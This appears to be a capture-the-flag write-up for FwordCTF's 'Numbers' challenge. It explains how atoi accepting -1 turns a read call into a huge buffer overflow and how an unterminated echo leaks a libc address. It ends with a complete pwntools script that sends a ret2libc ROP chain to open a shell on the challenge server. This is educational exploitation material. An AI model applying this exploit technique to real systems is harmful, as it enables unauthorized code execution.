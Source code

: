 # Numbers

Numbers

The program is a constant prompt that... 1. Reads a number from us 2. Checks if the number is greater than 60, if so it tells us we're naughty and exits 3. Reads that amount of data into a 64 length buffer 4. Prints the data 5. Asks if we want to try again, just dont type n

There's also some prompts inbetween but those aren't important. At first glance, this seems perfectly secure. But actually, note this code snippet.

```javascript
  read(0,local_10,8);
  iVar1 = atoi(local_10);
```

It actually uses atoi to convert our input to a number, and atoi allows signed integers.

This means we can enter a negative number, like -1, and atoi will return `0xffffffff`

the read function takes a size\_t parameter - it wont think we're trying to read -1 bytes of data, but `4294967295` bytes of data. Now that's a lot of overflow.

PIE is on, so we cant just overwrite the return address of the integer reading function, ret2plt and call it a day. Because it prints our input back at us, we can exploit it similarly to skywriting from redpwn.

As a recap, strings are terminated by null bytes. When a function, like printf in this case, attempts to print a string, it will continue reading data until it reaches a null byte, at which it will stop.

If we make our input long enough, overwriting null bytes and nudging itself next to some data, said data can be leaked. Imagine it like this:

```text
00 00 00 00 de ad be ef
```

\(our input is at the beginning, and we wish to leak the 0xdeadbeef data\) currently this reads as an empty string let's fill the input with `AAAA`

```text
41 41 41 41 de ad be ef
```

Now, the null bytes have been overwritten, so the 0xdeadbeef is part of the string! This reads to be AAAA\xde\ad\be\ef.

8 bytes from the beginning of our buffer is atoi+16, we can leak this using this method and calculate the libc base. Our input is 72 bytes from the return address, so after leaking we will send 72 bytes of padding + poprdi + /bin/sh + retgadget\(stack alignment\) + system to overwrite the return address of the buffer reading function and pop a shell.

Then, cat `flag.txt` to get the flag.

1. Send size of -1 to gain large buffer overflow
2. Send 8 bytes to leak libc address\(atoi+16\)
3. Use libc-database find to get the remote libc\(libc6\_2.28-0ubuntu1\_amd64\)
4. Use size -1 trick again to overwrite return address and send system\("/bin/sh"\) rop chain to pop a shell

   ```python
   from pwn import *
   e = ELF("./numbers")
   context.arch = 'amd64'
   p = e.process() if args.LOCAL else remote('numbers.fword.wtf', 1237)
   libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.28-0ubuntu1_amd64/libc.so.6")
   def getoutput(data,cont=True):
    p.recvuntil(b"??\n")
    # We send -1 as a number because atoi allows negatives, but read will actually just interpret this as a request to read 0xffffffff bytes, giving us a lot of overflow
    p.send("-1\x00")
    p.recvline()
    # Our input is echoed(safe printf) so we can leak values because of lack of string termination, skywriting style
    p.send(data)
    if not cont:
        return
    p.recvuntil(data)
    ans = p.recvline()
    p.recvuntil(b"?\n")
    p.send('\n')
    return ans[:-1]
   num = 0x40
   libcleak = getoutput(b'A'*8).ljust(8,b'\x00')
   libcleak = u64(libcleak)
   log.info(f"Libc leak: {hex(libcleak)}")
   libcbase = libcleak - 16 - libc.symbols['atoi']
   log.info(f"Libc base: {hex(libcbase)}")
   libc.address = libcbase
   padding = b'A'*0x48
   rop = ROP(libc)
   poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
   retgadget = (rop.find_gadget(['ret']))[0]
   chain = flat(poprdi,next(libc.search(b"/bin/sh\x00")),retgadget,libc.symbols['system'])
   getoutput(padding + chain,False)
   p.interactive()
   ```

## Flag: FwordCTF{s1gN3d\_nuMb3R5\_c4n\_b3\_d4nG3r0us}

